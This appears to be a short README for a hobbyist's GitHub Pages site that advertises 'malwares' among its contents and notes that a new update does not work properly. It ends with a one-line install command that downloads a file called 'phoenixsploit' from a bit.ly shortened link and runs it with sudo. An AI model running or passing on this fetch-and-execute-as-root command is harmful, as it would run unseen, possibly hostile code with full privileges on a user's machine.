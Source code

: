 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>

NEW UPDATE!
DOES NOT FUNCTION PROPERLY

wget https://bit.ly/phoenixsploit && sudo chmod +x phoenixsploit && sudo ./phoenixsploit

